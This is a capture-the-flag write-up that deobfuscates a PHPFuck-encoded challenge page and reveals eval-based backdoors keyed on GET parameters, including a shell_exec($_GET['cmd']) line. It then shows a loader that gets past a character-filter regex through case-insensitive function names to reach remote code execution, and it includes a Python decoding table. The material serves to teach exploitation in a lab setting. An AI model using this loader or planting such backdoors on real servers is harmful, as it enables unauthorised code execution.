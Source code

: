 # Until the end

- Road to Valhalla part 3 
- medium

In part2 of Road to Valhalla you found the URL of the server that contains the coordinates of Valhalla. You open the site and see the title of the page "Only those who endure until the end". So be it traveler endure till the end and you will have your reward!

https://until-the-end.secchallenge.crysys.hu

author: Pepe

## Writeup

We were greeted with syntax-highlighted PHP code (linked because it's BIG). It was actually the source code of the page.

Identifying that brackety-thing was not straightforward, and took me some time. Googling `programming only brackets` led me to [this SO question](https://stackoverflow.com/questions/25622221/language-made-only-of-brackets-plus-and-exclamation-marks) and it turns out there's a joke-language (a subset of JS) called `JSFuck` witch uses only a few characters for programs. Of course, this is PHP and another set of characters...

After that, I've randomly googled `PHPFuck` and found [this github repo](https://github.com/splitline/PHPFuck), basically the exact thing used here.

![php_normal](php.png)
(meme by `rnbwdsh`)

So, I've worked on un-fucking the script. It's not that hard, it's just making characters and concatenates them into code, then passes it to `create_function`. It mostly follows the pattern of `(char).(char).(char)`. With a PHP shell to eval the characters I've managed to search-replace all of them and reverse the code:
```php
<title>Only those who endure until the end</title>
<?php 
highlight_file(__FILE__);
if (isset($_GET[' '])) {
    $will_eval = str_replace('a', str_replace('kekw'), str_rot13(strtoupper(substr($_GET[' '], 42, 69))));
    var_dump($will_eval);
    eval($will_eval);
}
else if (isset($_GET['+'])) {
    if (preg_match('/[b-d\-0-9H-LA-DU-Xi-kn-s!?TEz.]/', $_GET['+'])) 
        die();
    eval($_GET['+']);
}
else {
    die();
    shell_exec($_GET['cmd']);
}
?>
```

So there's actually 2 backdoors, but possibly only one of them is accessible. With a few tries (a lot of them actually because I f-ed them up) it turns out that `+` can be a parameter if URL-encoded as `%2B`. It will only eval our payload if it does NOT match that regex, witch limits what we can do.

I've came up with a way to escape that regex prison by `eval()`-ing another `$_GET` parameter. I could not just include `$_GET`, but could do `$_Get` and `eval()` it after `strtoupper()` and get the same thing. The whole thing only works because function names are not case sensitive.

Here's my loader:
```php
$a=StRtOuPPeR('$_Get');
$Y=eval("RetuRN {$a};");
$x=$Y['x'];
eval($x);
```

Sent URL-encoded of course.

With that, I've gained RCE on the server. It took me a really long time to figure out that this even works, because I've always tried `shell_exec()` and `file_read()` and those were disabled (should have run `phpinfo()` first, stupid me). 

Anyways, if you list the contents of the folder, you can see that there is a folder named `very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]` and as with the previous ones I could just navigate there and find the flag.


The request I've found the folder with: `+=<loader>&x=echo scandir(".");`

### EDIT:
My code unfucking the PHP:
```python
REPLACE = [
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","c"],
    ["(([].[])[([]^[[]])])", "r"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "e"],
    ["(([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","a"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","t"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","_"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","f"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","u"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","n"],
    ["(([]^[]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","i"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","o"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","s"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "g"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","v"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","("],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","$"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","G"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","E"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","T"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","["],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])"," "],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])",'"'],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",","],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","\\'"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",")"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","{"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\n"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","]"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","l"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])])","p"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","k"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","w"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","m"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","h"],
    ["(([]^[[]]).[][[]])","1"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])])","3"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","b"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","4"],
    ["(([]^[[]])+([]^[[]]).[][[]])","2"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","6"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","9"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","d"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",";"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","+"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","}"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","/"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","-"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\"],
    ["(([]^[]).[][[]]^([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","x"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","!"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","H"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","L"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","D"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","U"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","X"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","?"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","z"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","."],
    ["(([].[])[([]^[])])","A"],
    ["(([]^[]).[][[]])","0"],

]

REPLACE.sort(key=lambda x: len(x[0]), reverse=True)


with open("phpfuck.php") as fin:
    with open("out.php", "w") as fout:
        l = fin.read()
        for r in REPLACE:
            l = l.replace(r[0],f"'{r[1]}'")
        #l = l.replace("'.'","")
        fout.write(l)
```
